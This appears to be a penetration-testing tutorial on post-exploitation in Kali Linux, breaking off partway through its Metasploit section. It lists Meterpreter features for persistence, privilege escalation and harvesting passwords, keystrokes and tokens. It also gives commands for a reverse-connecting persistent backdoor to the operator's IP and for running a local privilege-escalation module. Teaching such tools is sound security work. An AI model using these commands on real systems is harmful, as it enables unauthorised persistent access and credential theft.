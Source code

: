# Post-Exploitation Tools Guide

## Introduction to Post-Exploitation

Post-exploitation is the phase that follows the successful exploitation of a target system. After gaining initial access, the focus shifts to maintaining control, escalating privileges, gathering additional information, and preparing for future operations. Post-exploitation activities are crucial for understanding the full extent of a compromise and can provide insights into how an attacker might use the compromised system to move laterally within a network or exfiltrate data.

### Why Post-Exploitation Matters

Post-exploitation is essential because it reveals what an attacker can do after breaching a system. It helps security professionals understand the potential impact of a compromise, identify further vulnerabilities, and implement effective remediation strategies. In a penetration test, post-exploitation activities simulate the actions of an advanced persistent threat (APT) to demonstrate the worst-case scenario.

## Popular Post-Exploitation Tools in Kali Linux

Here’s an overview of some of the most commonly used post-exploitation tools available in Kali Linux:

### 1. **Metasploit Framework**

**Overview**:
Metasploit Framework, while known primarily for its exploitation capabilities, also offers powerful post-exploitation tools. These tools allow attackers to maintain access, escalate privileges, gather data, and perform further attacks within the compromised system.

**Key Features**:
- **Meterpreter**: A versatile payload that provides an interactive shell with a wide range of post-exploitation commands.
- **Persistence**: Establishes a backdoor to maintain access even after the system reboots.
- **Privilege Escalation**: Exploit local vulnerabilities to gain higher privileges.
- **Data Harvesting**: Extract sensitive information such as passwords, keystrokes, and tokens.

**Getting Started with Metasploit for Post-Exploitation**:

1. **Maintaining Access with Persistence**:

   ```bash
   run persistence -U -i 5 -p 4444 -r <your IP>
   ```

   - This command sets up a persistent backdoor that connects back to your machine every 5 seconds.

2. **Privilege Escalation**:

   ```bash
   use exploit/windows/local/privilege_escalation_module
   set SESSION <session ID>
   run
   ```
